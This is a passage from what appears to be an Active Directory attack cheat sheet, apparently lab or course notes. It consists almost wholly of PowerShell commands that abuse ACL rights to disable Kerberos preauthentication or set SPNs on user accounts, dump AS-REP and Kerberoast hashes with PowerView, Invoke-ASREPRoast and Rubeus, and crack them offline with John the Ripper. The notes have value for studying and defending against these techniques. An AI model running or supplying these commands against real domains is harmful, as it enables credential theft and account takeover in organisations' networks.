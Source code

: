 #### Force Disable Kerberos Preauth
```powershell
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}
```
```powershell
Set-DomainObject -Identity Control1User -XOR @{useraccountcontrol=4194304} -Verbose
```
```powershell
Get-DomainUser -PreauthNotRequired -Verbose
```

#### Request Encrypted AS-REP for Offline Brute-Force
```powershell
Get-ASREPHash -UserName VPN1user -Verbose
```

#### Enumerate all users with Kerberos Preauth Disabled and request a hash
```powershell
Invoke-ASREPRoast -Verbose
```

##### Use John the Ripper to brute-force hashes offline
```powershell
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\asrephashes.txt
```

### Kerberoasting - Set SPN

#### Enumerate the permissions for RDPUsers on ACLs - PowerView
```powershell
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}
```

#### Check if User has SPN set
```powershell
Get-DomainUser -Identity supportuser | select serviceprincipalname
```
##### Using Active Directory Module
```powershell
Get-ADUser -Identity supportuser -Properties ServicePrincipalName | select ServicePrincipalName
```

#### Set an SPN - Powerview
```powershell
Set-DomainObject -Identity support1user -Set @{serviceprincipalname=‘dcorp/whatever1'}
```
##### Set an SPN - Active Directory Module
```powershell
Set-ADUser -Identity support1user -ServicePrincipalNames @{Add=‘dcorp/whatever1'}
```

#### Kerberoast the User
```powershell
Rubeus.exe kerberoast /outfile:targetedhashes.txt
```
```powershell
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\targetedhashes.txt
```
